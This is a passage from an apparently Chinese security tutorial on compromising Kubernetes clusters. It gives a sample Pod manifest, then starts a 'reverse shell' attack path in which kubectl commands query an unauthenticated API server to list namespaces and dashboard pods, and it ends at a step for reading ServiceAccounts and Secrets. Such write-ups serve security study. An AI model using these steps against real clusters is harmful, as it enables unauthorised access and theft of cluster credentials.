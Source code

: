 ```plain
apiVersion: v1                      
kind: Pod                           
metadata:
  name: nginx                       
spec:                               
  containers:
  - image: nginx:alpine             
    name: container-0               
    resources:                      
      limits:
        cpu: 100m
        memory: 200Mi
      requests:
        cpu: 100m
        memory: 200Mi
  imagePullSecrets:                 
  - name: default-secret
```

如果幸运的化我们可以找到恰当的 Pod 并通过信息收集以及逃逸获取宿主机的权限，之后控制节点以及整个集群~  
**反弹 shell**  
A、Web Dashboard  
Step 1：查看当前 Namespace 确定命名空间有哪些

```plain
kubectl -s 192.168.17.144:8080 get namespaces
```

[![](assets/1701826061-6abb173096a14e24aff97e2f1daa124c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025165051-99e97914-7313-1.png)  
Step 2：查看"kubernetes-dashboard"命名空间下 pod 与 service 的详细状态

```plain
kubectl -s 192.168.17.144:8080 get pods,svc -n kubernetes-dashboard -o wide
```

[![](assets/1701826061-f473b24a88faf2d8608c39c0ef78ea9d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025165115-a80df8e4-7313-1.png)  
Step 3：查看 Serviceaccount 和 Secrets
